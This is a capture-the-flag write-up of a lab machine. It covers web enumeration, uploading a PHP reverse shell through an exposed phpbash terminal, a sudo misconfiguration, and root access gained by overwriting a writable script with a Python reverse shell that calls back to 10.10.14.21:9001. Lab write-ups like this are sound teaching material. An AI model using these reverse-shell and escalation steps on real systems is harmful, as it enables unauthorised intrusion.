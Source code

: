 We begin by performing a port scan to identify which services are available:

![image.png](./Uploads/Bashed-EscaneoP.png)

We identify that port **80** is open, which immediately suggests we are dealing with an HTTP server. Next, we analyze the services and versions associated with this port to understand what we're working with:

![image.png](./Uploads/Bashed-Versiones.png)

As part of my analysis methodology, I like to anticipate potential attack vectors by enumerating subdirectories early on. For this, I typically use **Gobuster**, as it’s fast and allows for manual control:

![image.png](./Uploads/BashedGobuster.png)

We discover subdirectories like `/images` and `/uploads`, which hint at a potential file upload vector. However, before jumping into exploitation, we visit these subdomains to gather more information:

![image.png](./Uploads/Bashed-ArchivoPhp.png)

Among the subdirectories, `/dev` stands out. Within it, we find `phpbash.php` — a web-based Bash emulator designed for easier directory interaction. This gives us an excellent opportunity to elevate privileges and establish remote access. From here, we move to the `/uploads` directory and attempt to deliver a PHP reverse shell, assuming `.php` file execution is allowed:

![image.png](./Uploads/DescargarReverseShell.png)

We use a basic PHP reverse shell script and, through our pseudo-terminal, perform a brief reconnaissance to prepare the environment. Then we upload the shell by setting up a listener using `nc` (netcat), and configure it to only transfer the reverse shell script:

![image.png](./Uploads/Enumeracion-TerminalWeb.png)

![image.png](./Uploads/PuertoEscuchaParaReverse.png)

From the pseudo-terminal, we make the request to download the reverse shell script into `/var/www/html/uploads:`  

![image.png](./Uploads/ReverseShellEstablecidaMaquinaVictima.png)

Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:

![image.png](./Uploads/RutaParaEstablecerLaConexion.png)

Afterward, we execute the uploaded script via the browser and start listening on the configured port to catch the reverse connection. It’s important to edit the PHP shell beforehand to insert your own IP and listening port:

![Tratamiento tty.png](./Uploads/TratamientoTTY.png)

Once we receive the connection, we treat the TTY session to stabilize the shell and make it more usable (e.g., support for `tab` completion, `clear`, `nano`, etc.). The commands used for TTY stabilization are:

`bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg
reset
xterm
export TERM=xterm
export SHELL=bash`

With a stable shell, we proceed to privilege escalation. Since we previously enumerated the system via the web terminal, we now focus on identifying ways to escalate from the current www-data user, which has limited privileges.

We check for available sudo permissions and discover that we can execute commands as scriptmanager without a password. This allows us to escalate privileges using:

bash
Copy
Edit
sudo -u scriptmanager bash -i

![Tratamiento tty.png](./Uploads/CambiodeUsuarioAScriptManager.png)

From here, we explore the file system with ls -la / and notice a directory named /scripts. Inside, we find a writable script. We attempt to modify it to spawn a reverse shell using Python and connect back to our system on a new listener port:

bash
Copy
Edit
echo 'import socket,subprocess,os' > /scripts/test.py
echo 's=socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> /scripts/test.py
echo 's.connect(("10.10.14.21", 9001))' >> /scripts/test.py
echo 'os.dup2(s.fileno(),0)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),1)' >> /scripts/test.py
echo 'os.dup2(s.fileno(),2)' >> /scripts/test.py
echo 'p=subprocess.call(["/bin/sh", "-i"])' >> /scripts/test.py
![Tratamiento tty.png](./Uploads/SobreescribiendoScriptEnScriptaManager.png)

After executing this script, we successfully receive a reverse shell as root on our listener:
![Tratamiento tty.png](./Uploads/Root.png)


Finally, we navigate to /home/arrexel to retrieve the user.txt flag, which is readable with a simple cat command:

![Tratamiento tty.png](./Uploads/FlagArrexel.png)
